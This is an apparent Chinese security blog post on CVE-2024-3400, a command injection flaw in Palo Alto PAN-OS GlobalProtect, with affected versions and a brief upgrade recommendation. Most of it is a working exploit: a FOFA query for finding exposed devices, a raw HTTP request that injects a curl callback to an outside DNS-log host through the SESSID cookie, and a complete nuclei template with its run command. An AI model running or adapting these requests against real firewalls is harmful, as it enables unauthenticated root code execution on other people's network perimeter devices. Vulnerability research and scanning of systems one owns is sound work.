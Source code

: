 #  CVE-2024-3400   
原创 fgz  AI与网安   2024-04-18 06:00  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
Palo Alto Networks PAN-OS GlobalProtect 命令注入漏洞  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
      
影响版本  
  
      
PAN-OS 10.2 < 10.2.9-h1  
  
      
PAN-OS 11.0 < 11.0.4-h1  
  
      
PAN-OS 11.1 < 11.1.2-h3  
  
      
安全版本  
  
      
PAN-OS 10.2.9-h1  
  
      
PAN-OS 11.0.4-h1  
  
      
PAN-OS 11.1.2-h3  
  
  ![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNrldtCc6JE6ibI3vE2giabh216s4x8KYYotEhSyI5fejbhfBJaQftnFV7dYicKVOCJLG9YweYXB312w/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
Palo Alto Networks PAN-OS GlobalProtect 是Palo Alto Networks 的一款防火墙产品。2024年4月12日，官方披露CVE-2024-3400 Palo Alto Networks GlobalProtect 命令注入漏洞。在特定PAN-OS版本和不同功能配置下，未经身份验证的攻击者可能利用此漏洞在防火墙上以root权限执行任意代码。  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
icon_hash="-631559155"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNrldtCc6JE6ibI3vE2giabh23CgARicXe9ib0MxLAAJqpXeD9DUxuwcbCXMBSS7cE5NHQibm7ficrYmhPg/640?wx_fmt=png&from=appmsg "")  
  
  
05  
  
—  
  
漏洞复现  
  
  
poc如下，注入点在  
Cookie  
中，将其中的DNSlog地址替换为你的dnslog地址,借助DNSLOG来复现，可以使用http://dnslog.pw/  
```
GET /global-protect/login.esp HTTP/1.1
Host: 192.168.30.112:1005
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36 Edg/92.0.902.84
Connection: close
Cookie: SESSID=/../../../opt/panlogs/tmp/device_telemetry/minute/hellothere226`curl${IFS}dnslog地址`;
Accept-Encoding: gzip
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNrldtCc6JE6ibI3vE2giabh24kpMWqk2xr6WM9uuvLm4uvz9mdD0TKNZmxPC0G17nooib3uXicZgvY6g/640?wx_fmt=png&from=appmsg "")  
  
漏洞复现成功  
  
  
  
06  
  
—  
  
nuclei poc  
  
  
poc文件内容如下  
```
id: CVE-2024-3400

info:
  name: GlobalProtect - OS Command Injection
  author: pdresearch,parthmalhotra
  severity: critical
  description: |
    A command injection vulnerability in the GlobalProtect feature of Palo Alto Networks PAN-OS software for specific PAN-OS versions and distinct feature configurations may enable an unauthenticated attacker to execute arbitrary code with root privileges on the firewall.Cloud NGFW, Panorama appliances, and Prisma Access are not impacted by this vulnerability.
  reference:
    - https://labs.watchtowr.com/palo-alto-putting-the-protecc-in-globalprotect-CVE-2024-3400/
    - https://github.com/fkie-cad/nvd-json-data-feeds
    - https://github.com/k4nfr3/nmap-scripts
    - https://github.com/0x0d3ad/CVE-2024-3400
    - https://github.com/FoxyProxys/CVE-2024-3400
    - https://github.com/MrR0b0t19/CVE-2024-3400
    - https://nvd.nist.gov/vuln/detail/CVE-2024-3400
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
    cvss-score: 10
    cve-id: CVE-2024-3400
    cwe-id: CWE-77
    epss-score: 0.00371
    epss-percentile: 0.72356
    cpe: cpe:2.3:o:paloaltonetworks:pan-os:10.2.0:*:*:*:*:*:*:*
  metadata:
    verified: true
    max-request: 1
    fofa-query: icon_hash="-631559155"
    product: pan-os
    vendor: paloaltonetworks
  tags: cve,cve2024,globalprotect,pan-os,rce,oast,kev

http:
  - raw:
      - |
        GET /global-protect/login.esp HTTP/1.1
        Host: {{Hostname}}
        Cookie: SESSID=/../../../opt/panlogs/tmp/device_telemetry/minute/hellothere226`curl${IFS}{{interactsh-url}}`;

    matchers-condition: and
    matchers:
      - type: word
        part: interactsh_protocol
        words:
          - "http"

      - type: word
        part: body
        words:
          - "GlobalProtect Portal"
```  
  
运行POC  
```
nuclei.exe -t mypoc/cve/CVE-2024-3400.yaml -l data\1.txt
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNrldtCc6JE6ibI3vE2giabh2gDFcrib0npGlbj8yya0C1zjhDvJpxMrR6Qa1YpvbricBibibHPkVCuTO2A/640?wx_fmt=png&from=appmsg "")  
  
  
  
07  
  
—  
  
修复建议  
  
  
升级到最新版本。  
  
  
